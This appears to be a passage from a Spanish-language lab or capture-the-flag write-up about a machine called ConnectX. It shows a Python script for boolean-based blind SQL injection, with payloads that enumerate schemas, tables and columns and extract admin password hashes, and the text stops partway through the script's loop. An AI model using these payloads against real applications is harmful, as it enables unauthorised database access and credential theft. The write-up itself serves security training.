 Tal y como vemos a continuación, encontraremos dos hashes: el nuestro y el del usuario **admin**. En este punto, podemos intentar crackear el hash del usuario **admin**, pero no tendremos éxito.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250318174339.png>)
#### Manual - Python Script

Gracias al siguiente script, seremos capaces de volcar toda la información de la base de datos, es decir, obtener el **hash** del usuario **admin**. 

```python
#!/usr/bin/env python3

# Author: Álvaro Bernal (aka. trr0r)

import requests, string, time, signal, sys
from pwn import *

characters = string.ascii_lowercase + string.ascii_uppercase + string.digits + "-_:,$.@/~1&*"

main_url = "http://connectx.bbl/home.php"

# Establecemos la cookie de sesión de nuestro usuario
cookies = {
    'PHPSESSID' :  'vpk8tb61k35rugng5nqe8c5mbo'
}

# Payloads usados para dumpear la información de la base de datos
# actual database -> "admin' and substring(database(),%d,1)='%s'-- -" % (position, character)
# databases -> "admin' and substring((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s'-- -" % (position, character)
# connectx's tables -> "admin' and substring((select group_concat(table_name) from information_schema.tables where table_schema = 'connectx'),%d,1)='%s'-- -" % (position, character)
# connectx's columns -> "admin' and substring((select group_concat(column_name) from information_schema.columns where table_schema = 'connectx' and table_name = 'users'),%d,1)='%s'-- -" % (position, character)
# connectx's information -> "admin' and substring((select group_concat(BINARY(username),0x3a,BINARY(password)) from connectx.users),%d,1)='%s'-- -" % (position, character)

def ctrl_c(key, event):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

def makeSQLI():

    cadena = ""
    p1 = log.progress("SQLI")
    p1.status("Fuerza bruta")
    p2 = log.progress("Información extraída")
    
    for position in range(1, 500):
        for character in characters:
```